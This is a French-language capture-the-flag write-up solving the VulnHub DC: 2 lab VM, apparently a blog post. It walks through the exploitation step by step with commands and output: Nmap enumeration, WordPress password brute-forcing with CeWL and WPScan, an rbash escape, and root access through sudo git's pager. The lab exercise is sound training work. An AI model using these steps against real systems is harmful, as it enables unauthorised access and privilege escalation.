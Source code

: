 ```yaml
---
title: "Solution du CTF DC: 2 de VulnHub"
tags: [VulnHub, CTF]
---
```


[DC: 2](https://vulnhub.com/entry/dc-2,311/) est le second opus de la série de CTF proposée sur _VulnHub_. On reste globalement dans du classique.

```
Nmap scan report for 192.168.56.131
Host is up (0.00064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
MAC Address: 08:00:27:4F:AF:E5 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut relancer Nmap avec le script `vuln` qui détecte un Wordpress et dump la liste des utilisateurs :

```bash
sudo nmap -sC --script vuln -p80 192.168.56.131
```

On a ainsi trois utilisateurs enregistrés :

```
80/tcp   open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|_  /readme.html: Interesting, a readme.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-wordpress-users: 
| Username found: admin
| Username found: tom
| Username found: jerry
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

Sur le site, on trouve aussi un premier flag :

> **Flag 1:**
> 
> Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
> 
> More passwords is always better, but sometimes you just can’t win them all.
> 
> Log in as one to see the next flag.
> 
> If you can’t find it, log in as another.

On va donc avoir recours à [GitHub - digininja/CeWL: CeWL is a Custom Word List Generator](https://github.com/digininja/CeWL). On va s'en tenir à la page d'index. Le site est de toute façon remplit de *Lorem Ipsum*.
Sur les Wordpress il faut généralement passer le nom d'hôte sans quoi certaines requêtes échouent. On passe donc l'option supplémentaire `--add-host` à Docker.

```bash
docker run --add-host dc-2:192.168.56.131 -it --rm cewl http://dc-2/ > words.txt
```

Avec la wordlist obtenue on lance `WPscan` pour tenter de casser un ou plusieurs comptes :

```bash
docker run -v /tmp:/data  --add-host dc-2:192.168.56.131 -it --rm wpscanteam/wpscan --url http://dc-2/ -U admin,tom,jerry -P /data/words.txt
```

On en obtient deux. Aucun n'est administrateur :

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

Une fois connecté sur le Wordpress on trouve un second flag :

> **Flag 2:**
> 
> If you can't exploit WordPress and take a shortcut, there is another way.
> 
> Hope you found another entry point.

Les identifiants de `tom` permettant un accès SSH. On trouve là un autre flag :

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

En revanche nous sommes gênés par un bash restreint :

```console
tom@DC-2:~$ ls
flag3.txt  usr
tom@DC-2:~$ id
-rbash: id: command not found
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin
-rbash: PATH: readonly variable
tom@DC-2:~$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

Le `rbash` semble suffisamment restreint. On a beau voir avec `Vi` que le `PATH` est déclaré à `/home/tom/usr/bin` dans le `.bashrc`, ce dernier est ignoré par le `rbash` donc l'éditer ne sert à rien.

On va faire avec la liste des binaires présents dans le `PATH` :

```console
tom@DC-2:~$ ls -al usr/bin
total 8
drwxr-x--- 2 tom tom 4096 Mar 21  2019 .
drwxr-x--- 3 tom tom 4096 Mar 21  2019 ..
lrwxrwxrwx 1 tom tom   13 Mar 21  2019 less -> /usr/bin/less
lrwxrwxrwx 1 tom tom    7 Mar 21  2019 ls -> /bin/ls
lrwxrwxrwx 1 tom tom   12 Mar 21  2019 scp -> /usr/bin/scp
lrwxrwxrwx 1 tom tom   11 Mar 21  2019 vi -> /usr/bin/vi
```

Tenter de sortir avec `Vi` semble échouer, car le même shell doit être appelé pour exécuter les commandes via `:!commande`. Je n'ai pas fouillé plus loin, mais je suis sûr qu'il y a différentes méthodes pour s'en sortir.

J'ai préféré copier bêtement bash dans le dossier autorisé via `scp` :

```console
tom@DC-2:~$ scp -P 7744 tom@127.0.0.1:/bin/bash usr/bin/
The authenticity of host '[127.0.0.1]:7744 ([127.0.0.1]:7744)' can't be established.
ECDSA key fingerprint is df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:7744' (ECDSA) to the list of known hosts.
tom@127.0.0.1's password: 
bash                                                                                                                                                                            100% 1080KB   1.1MB/s   00:00    
tom@DC-2:~$ bash
tom@DC-2:~$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry)
```

On a pu sauter vers le compte jerry via `su` comme indiqué dans le flag. Avec ce nouveau compte, on obtient le 4ᵉ flag :

> Good to see that you've made it this far - but you're not home yet.    
> 
> You still need to get the final flag (the only flag that really counts!!!).     
> 
> No hints here - you're on your own now.  :-)  
> 
> Go on - git outta here!!!!

```console
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Il y a un [GTFObin](https://gtfobins.github.io/gtfobins/git/#sudo) qui exploite l'appel à un pager par Git :

```console
jerry@DC-2:/home/tom$ sudo /usr/bin/git -p help config
GIT-CONFIG(1)                                                                                    Git Manual                                                                                    GIT-CONFIG(1)



NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
--- snip ---
        2. can not write to the config file (ret=4),

!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
final-flag.txt
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```


